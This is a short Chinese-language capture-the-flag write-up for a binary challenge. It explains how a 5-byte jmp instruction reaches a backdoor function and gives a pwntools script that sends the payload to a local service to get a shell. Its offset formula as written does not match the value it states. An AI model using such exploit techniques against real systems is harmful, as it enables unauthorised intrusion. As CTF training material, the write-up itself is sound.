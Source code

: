 # shellcode level3

## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int8_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
